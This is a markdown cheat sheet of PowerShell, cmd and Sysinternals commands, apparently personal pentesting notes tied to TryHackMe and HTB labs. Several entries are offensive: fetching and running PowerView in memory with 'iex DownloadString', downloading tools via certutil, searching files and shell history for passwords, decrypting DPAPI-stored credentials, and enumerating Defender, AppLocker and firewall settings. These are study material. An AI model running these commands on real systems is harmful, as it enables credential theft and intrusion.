



# Useful commands with Powershell, cmd and Sysinternals

## Powershell Overview

- Cmdlet format: `Verb-Noun`  the output of these cmdlets are objects
- Commom verbs: `Get`, `Start`, `Stop`, `Read`, `Write`, `New`, `Out`.
- `Get-Command` to list all commands
  - `Get-Command Verb-*` or `Get-Command *-Noun` to filter the command
- `Get-Help Command-Name` will output help on a command.

### Object manipulation

- `|` Pass output from one cmdlet to another
- An object will contain methods and properties. You can think of methods as functions that can be applied to output from the cmdlet and you can think of properties as variables in the output from a cmdlet
- `Verb-Noun | Get-Member` output methods and properties of the cmdlet
  - Example: `Get-Command | Get-Member -MemberType Method`  



- One way of manipulating objects is pulling out the properties from the output of a cmdlet and creating a new object. This is done using the Select-Object cmdlet.
  - Example: `Get-ChildItem | Select-Object -Property Mode, Name` listing the directories and just selecting the mode and the name.  



#### Useful flags

- first - gets the first x object
- last - gets the last x object
- unique - shows the unique objects
- skip - skips x objects

#### Filtering objects

- `Verb-Noun | Where-Object -Property PropertyName -operator Value`
- `Verb-Noun | Where-Object {$_.PropertyName -operator Value}` uses the $_ operator to iterate through every object passed to the Where-Object cmdlet.
- Operators: `Contains` If any item in the property value is an exact match for the specified value/, `EQ` If the property value is the same as the specified value, `GT` If the property value is greater than the specified value
- Full list of operators [here](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/where-object?view=powershell-6)
- Example: `Get-Service | Where-Object -Property Status -eq Stopped` Checking the stopped processes



#### Sort objects

- `Verb-Noun | Sort-Object`
- Example: `Get-ChildItem | Sort-Object` sorting the list of directories

Source: [TryHackMe - Throwback](https://tryhackme.com/room/throwback)

## Downloading files

- `certutil.exe -urlcache -f http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need name-you-want-to-give-the-file` (works also in cmd)
  ```
  PS C:\Users\users\Desktop> certutil.exe -urlcache -f http://192.168.3.28/powerview.ps1 powerview.ps1
  ****  Online  ****
  CertUtil: -URLCache command completed successfully.
  ```
- `wget http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need -OutFile name-you-want-to-give-the-file`
  ```
  PS C:\Users\user\Desktop> wget http://192.168.3.28/powerview.ps1 -OutFile powerview.ps1
  ```
- `iex (New-Object Net.WebClient).DownloadString('http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need')` will load it in memory without writing it in the disk, we will the be able to run powerview command if we use it to load powerview for instance
  ```
  PS C:\Users\s.chisholm.mayorsec\Desktop> iex (New-Object Net.WebClient).DownloadString('http://192.168.3.28/powerview.ps1')
  ```

## Offensive Powershell

### Using modules

- `Import-Module Module`
- `. .\Module.ps1`

### Enumeration

- For manual enumeration with powershell check out my article [here](./manual-enum-ad.md)

### Powershell Remoting

- `Enter-PSSession -ComputerName workstation-01`
- `Enter-PSSession -ComputerName workstation-01 -Credential domain\Username`
- ` Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName workstation-01 -Credential domain\Username` connect to a remote powershell and excute command with ScriptBlock. other command we could do with scriptblock: `ipconfig`, `net user`,...
- `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections` List AppLocker rules

### Misc

- `Install-Module ActiveDirectoryModule -ScopeCurrentUser` Install a module without admin rights
- `Get-MpComputerStatus` Check Windows Defender Status
- `Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone` Test AppLocker policy
- `Get-HotFix | ft -AutoSize` display hotfixes
- `Get-WmiObject -Class Win32_Product |  select Name, Version` display installed software
- `gci (Get-ChildItem)` list named pipes
- `select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password` Search file contents
- `Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore` search for file extensions
- View Sticky Notes data
  ```
  PS C:\htb> cd .\PSSQLite\
  PS C:\htb> Import-Module .\PSSQLite.psd1
  PS C:\htb> $db = 'C:\Users\user\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
  PS C:\htb> Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
  ```
- Enumerate schedule task with [Get-ScheduledTask](https://docs.microsoft.com/en-us/powershell/module/scheduledtasks/get-scheduledtask?view=windowsserver2019-ps) `Get-ScheduledTask | select TaskName,State`
- `Get-LocalUser` check the description field of local users
- `Get-WmiObject -Class Win32_OperatingSystem | select Description` Print computer description fields

## DOS CMD

## Downloading files

- `certutil.exe -urlcache -f http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need name-you-want-to-give-the-file`
- `curl.exe -o name-you-want-to-give-the-file http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need`

### Encode and Decode files

- `certutil -encode file1 encodedfile`
- `certutil -decode encodedfile file2`

### System Enumeration

- If we want to grep on specific information we can use `findstr`  
  `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`  
  ```
  c:\>systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
  OS Name:                   Microsoft Windows 7 Enterprise 
  OS Version:                6.1.7600 N/A Build 7600
  System Type:               X86-based PC
  ```
  
- If we want to see patches and update `wmic qfe`
  - `wmic qfe get Caption,Description,HotFixID,InstalledOn`
- List the drives `wmic logicaldisk` `list drives`
- `schtasks` query scheduled task
  - `schtasks /query /fo LIST /v`
- `driverquery` will list installed drivers
- `tasklist /svc` get the list of running processes
- `set` display all environment variables
- `wmic product get name` display installed software
- `icacls c:\Windows\System32\config\SAM` check permissions on the SAM file
- `[environment]::OSVersion.Version` check OS version
- `cmd /c echo %PATH%` review path variable

### User Enumeration

- `whoami`will give info on the current user
- `whoami /priv` will give info on the current user and their priv
- `whoami /groups` will give info on groups the current user is in
- `net user` or `net users` will list the user on the machine
- `query user` logged in users
- `echo %USERNAME%` current user
- `net user username` will list info about the with the username mentionned
- `net localgroup` `net localgroup groupname` will give info on group
- `qwinsta` or  `query session` other users logged in simultaneously
- `net accounts` Get Password Policy & Other Account Information

### Network Enumeration

- `ipconfig` or `ipconfig /all`
- `arp -a`
- `route print`
- `netstat -ano` list active connections
  - `-a`: Displays all active connections and listening ports on the target system.
  - `-n`: Prevents name resolution. IP Addresses and ports are displayed with numbers instead of attempting to resolves names using DNS.
  - `-o`: Displays the process ID using each listed connection.
  - Any port listed as “LISTENING” that was not discovered with the external port scan can present a potential local service. This is when we might need to use port forwarding to investigate the service.
- Check what service runs on a specific port (in the example we will use 8080
  - `netstat -ano | findstr 8080`  
    
  - From this output we can take the pid and checkout which service it is using tasklist `tasklist | findstr 2164`  
    

### Hunting passwords

- `findstr /si password *.txt` will search for the string "password" in txt files `/si` means it searches in the current directory and all subdirectories (s) and ignore the case (i).
- `findstr /si password *.txt *.ini *.config *.sql` same but also in ini, sql and config files
- `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml` Search file contents for string
- `findstr /spin "password" *.*` another way
- Unattend.xml files might have passwords in plaintext or base64 encoded
- `C:\Users\username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt` powershell cmd history is also worth looking at
  - To check where it is we can use this command `(Get-PSReadLineOption).HistorySavePath`
  - We can try to read it `gc (Get-PSReadLineOption).HistorySavePath`
  - `foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}` Retrieve the contents of all Powershell history files that we can access as our current user
- Powershell credentials are protected with DPAPI. If we can read them we could recover then in cleartext 
  - `$credential = Import-Clixml -Path 'C:\scripts\pass.xml'`
  - `$credential.GetNetworkCredential().username`
  - `$credential.GetNetworkCredential().password`
- `dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*` search for file extensions
- `where /R C:\ *.config` another way
- `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite` Looking for passwords in Sticky notes
- `strings plum.sqlite-wal` Using strings to view DB File contents
- Other files worth checking
```
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
```
- `cmdkey /list` list saved credentials
- `runas /savecred /user:domain\user "COMMAND HERE"` run command as another user

### AV Enumeration

- `sc query windefend` will show if Defender is running
- `sc queryex type= service` will list all running service
- `netsh advfirewall firewall dump` check for firewall
- `netsh firewall show state` similar older command
- `netsh firewall show config` will show the config of the firewall, useful to see blocked ports and other

### Execute dll files

- We can use [Rundll32](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/)``

## Sysinternals

### Pipelist

[Pipelist](https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist) is useful to enumerate instances of pipes  
- `pipelist.exe /accepteula` enumerate instances of named pipes.

### Accesschk

[Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) is useful to enumerate permissions  
- `accesschk.exe /accepteula`
- `accesschk.exe -wuvc Everyone *` list service we can write and to which everyone has access
- `.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"` List of user groups with read and write privs

### schtasks

[schtasks](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks) will let us enumerate scheduled tasks
- `schtasks /query /fo LIST /v`

## LOLBAS (living off the land binaries)

- [Check out LOLBAS project](https://lolbas-project.github.io/)

## Resources

 Working with wmic   
 Approved verbs for Powershell   